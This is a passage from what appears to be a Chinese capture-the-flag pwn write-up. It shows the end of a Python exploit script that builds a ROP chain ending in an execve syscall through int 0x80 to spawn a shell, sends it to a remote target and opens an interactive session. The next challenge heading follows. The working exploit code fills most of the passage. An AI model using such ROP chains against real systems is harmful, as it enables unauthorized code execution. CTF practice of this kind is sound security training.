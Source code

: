 ```python
p += pack('<I', 0x08056cc5) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056280) # xor eax, eax ; ret
p += pack('<I', 0x08056cc5) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806e012) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056280) # xor eax, eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x0807b8ba) # inc eax ; ret
p += pack('<I', 0x08049663) # int 0x80

r.sendline(p)
r.interactive()
```







## 50. pwn50（远程libc）

好像哪里不一样了

远程libc环境 Ubuntu 18

![image-20241102120532390](../_media/image-20241102120532390.png)
